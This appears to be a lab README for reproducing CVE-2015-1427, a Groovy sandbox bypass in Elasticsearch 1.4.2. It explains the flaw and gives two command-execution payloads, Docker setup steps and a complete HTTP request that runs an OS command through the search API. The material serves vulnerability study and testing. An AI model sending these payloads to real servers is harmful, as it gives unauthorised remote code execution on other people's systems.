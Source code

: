 # ElasticSearch Groovy Sandbox Bypass && Code Execution Vulnerability (CVE-2015-1427) Test Environment

Jre version: openjdk: 8-jre

Elasticsearch version: v1.4.2

## Principle

Reference article:

- http://cb.drops.wiki/drops/papers-5107.html
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits
- http://cb.drops.wiki/drops/papers-5142.html

After CVE-2014-3120, ElasticSearch's default dynamic scripting language was replaced with Groovy and a sandbox was added, but the default implementation of dynamic languages ​​is still supported by default. This vulnerability: 1. Is a sandbox bypass; 2. Is a Goovy code execution vulnerability.

## Groovy Language "Sandbox"

ElasticSearch supports the use of the "in the sandbox" of the Groovy language as a dynamic script, but it is clear that the official work is not done. Lupin and tang3 proposed two ways to execute commands:

1. Since there is a sandbox for executing Java code, lupin's method is to find ways to bypass the sandbox, such as using Java reflection.
2. Groovy was originally a language, so tang3 took a different approach and used the methods supported by the Groovy language to execute commands directly without using the Java language.

So, based on these two implementation vulnerabilities, we can get two different POCs.

Java sandbox bypass method:

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Goovy directly executes the command method:

```
Def command='id';def res=command.execute().text;res
```



## Vulnerability Testing

Compile and run the test environment

```
Docker-compose build
Docker-compose up -d
```

Since at least one data in es is required for the query, the following data packet is sent, and one data is added:

```
POST /website/blog/ HTTP/1.1
Host: your-ip: 9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

Then send the packet containing the payload and execute any command:

```
POST /_search?pretty HTTP/1.1
Host: your-ip: 9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\") .getRuntime().exec(\"id\").getText()"}}}
```

![](1.png)